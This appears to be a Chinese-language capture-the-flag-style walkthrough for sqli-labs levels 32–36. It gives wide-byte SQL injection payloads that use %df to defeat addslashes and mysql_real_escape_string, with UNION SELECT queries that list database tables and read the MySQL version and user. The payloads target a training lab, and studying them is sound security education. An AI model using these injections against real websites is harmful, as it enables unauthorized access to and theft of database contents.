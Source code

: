 直接高强度日站

```sql
?id=0%df'union select 11,22,(select group_concat(table_name) from information_schema.tables where table_schema=database())%23
```

![66](/medias/sqli-labs/66.png)

## Less-33

和上题有区别吗？好像没有，区别是上关是出题人自己定义一个转义函数，这里使用自带的`addslashes`函数

```sql
?id=0%df' union select 1,2,3%23
```

![67](/medias/sqli-labs/67.png)


## Less-34 POST

这道题使用post方式提交参数，用bp抓包提交

```sql
uname=0%df'union%20select%20version(),user()%23&passwd=1'&submit=Submit
```

![68](/medias/sqli-labs/68.png)


## Less-35

提示整型注入，好像什么过滤也没有？

![69](/medias/sqli-labs/69.png)


## Less-36

题目提示`bypass mysql_real_escape_string`，绕过`mysql_real_escape_string`函数

在`mysql注入天书`里，作者提到

![70](/medias/sqli-labs/70.png)

```sql
?id=0%df'union select 1,2,3%23
```


如果要防范`MYSQL_real_escape_string`，需要把mysql设置为`gbk`编码，那么说，非gbk编码时，`mysql_real_escape_string`函数会像上面`addslashes`一样，转义但存在宽字节注入？

翻看源码，发现，这题使用的就是`gbk`编码？？？

![71](/medias/sqli-labs/71.png)
